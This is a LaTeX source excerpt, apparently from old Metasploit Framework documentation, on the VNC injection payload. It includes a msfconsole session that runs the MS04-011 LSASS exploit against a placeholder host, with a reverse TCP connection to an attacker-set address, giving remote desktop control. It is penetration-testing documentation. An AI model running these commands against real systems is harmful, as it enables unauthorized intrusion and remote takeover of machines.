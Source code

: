 \documentclass{report}
\begin{document}
\par
If there is no interactive user logged into the system or the screen has been
locked, the command shell can be used to launch explorer.exe anyways. This can
result in some very confused users when the logon screen also has a start menu.
If the interactive desktop is changed, either through someone logging into the
system or locking the screen, the VNC server will disconnect the client. Future
versions may attempt to follow a desktop switch. 

\par
To use the VNC injection payloads, specify the full path to the VNC server as
the value of the \texttt{DLL} option. The VNC server can be found in the data
subdirectory of the Framework installation and is named 'vncdll.dll'. The source
code of the DLL can be found in the external/source/vncdll
subdirectory of the Framework installation. 

\par
As of the 2.4 release, there are a few situations where the VNC inject payload
will simply not work. These problems are often cause by strange execution
environments or other issues related to a specific exploit or injection method.
These issues will be addressed as time permits:
\begin{itemize}
	\item The windows/brightstor/universal\_agent exploit will cause the VNC payload to
	crash, possibly due to a strange heap state.
\end{itemize}

\begin{verbatim}
msf > use windows/smb/ms04_011_lsass
msf exploit(ms04_011_lsass) > set RHOST some.vuln.host
RHOST => some.vuln.host
msf exploit(ms04_011_lsass) > set PAYLOAD windows/vncinject/reverse_tcp
PAYLOAD => windows/vncinject/reverse_tcp
msf exploit(ms04_011_lsass) > set LHOST your.own.ip
LHOST => your.own.ip
msf exploit(ms04_011_lsass) > set LPORT 4321
LPORT => 4321
msf exploit(ms04_011_lsass) > exploit
\end{verbatim}

If the "vncviewer" application is in your path and the AUTOVNC option has been
set (it is by default), the Framework will automatically open the VNC desktop.
If you would like to connect to the desktop manually, \texttt{set AUTOVNC 0}, then use
vncviewer to connect to 127.0.0.1 on port 5900. 

\pagebreak
\chapter{More Information}
\end{document}
